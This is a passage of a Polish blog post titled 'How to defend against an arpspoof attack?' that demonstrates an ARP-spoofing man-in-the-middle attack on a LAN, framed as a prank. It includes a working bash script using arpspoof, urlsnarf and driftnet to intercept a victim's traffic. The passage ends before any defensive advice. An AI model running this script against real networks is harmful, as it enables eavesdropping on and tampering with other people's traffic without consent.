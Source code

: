 ```yaml
---
title: Jak bronić się przed atakiem arpspoof?
author: Przemek
type: post
date: 2013-06-28T20:09:10+00:00
url: /jak-bronic-sie-przed-atakiem-arpspoof/
featured_image: /wp-content/uploads/2013/06/techfreak_arpspoof_ico.jpg
hits:
  - 2094
dsq_thread_id:
  - 1446092104
categories:
  - Network
tags:
  - security

---
```

Grzebiąc w swoich linuksowych notatkach znalazłem instrukcje jak przy pomocy arpspoof, proxy i serwera www można zrobić komuś żart. Polega on na odwróceniu lub podmienieniu obrazków na wszystkich oglądanych przez ofiarę stronach www na inne np. coś śmiesznego. 

Tak, tak, jak by nie patrzeć to jest atak <a href="http://pl.wikipedia.org/wiki/ARP_Spoofing" target="_blank">arpspoof</a> typu <a href="http://pl.wikipedia.org/wiki/Atak_man_in_the_middle" target="_blank">MITM</a> który jest naprawdę łatwy do zrealizowania. Poniżej będzie można zobaczyć jak wygląda przeprowadzenie takiego ataku w sieci LAN w praktyce i jak się przed tym bronić na komputerze i smartfonie.

### Przykład ataku arpspoof

Poniżej pokaże jak okłamać stacje ofiary i bramę w sieci aby cały ruch przechodził przez mój komputer co pozwoli podejrzeć ruch z komputera ofiary. Na początek trzeba zainstalować potrzebne pakiety takie jak **dsniff** który zawiera **arpspoof** i **urlsnarf **lub** driftnet** dzięki któremu zobaczymy obrazki jakie są wyświetlane na podsłuchiwanej stacji.

<pre>aptitude install dsniff xterm driftnet</pre>

Poniżej skrypt który ułatwi to wszystko uruchomić i obserwować. Na początek pozwalamy na przekazywanie pakietów przez nasz interfejs. Następnie definiujemy adres IP bramy w sieci i naszego celu.

<pre>#! /bin/bash
echo 1 &gt; /proc/sys/net/ipv4/ip_forward
gateway=172.18.10.254
target=172.18.10.14
xterm -e arpspoof -i wlan0 -t $gateway $target &
xterm -e arpspoof -i wlan0 -t $target $gateway &
xterm -e urlsnarf -i wlan0 &
xterm -e driftnet &</pre>

Po odpaleniu skryptu okazało się że na podsłuchiwanej stacji ktoś ogląda sobie <http://strims.pl/s/dlugieszyny/>. No i tu się zaczyna zabawa. Pierwsze co przychodzi na myśl żeby zamienić te długie nóżki na coś innego np. na prawdziwe szyny kolejowe, tak żeby było tematycznie.
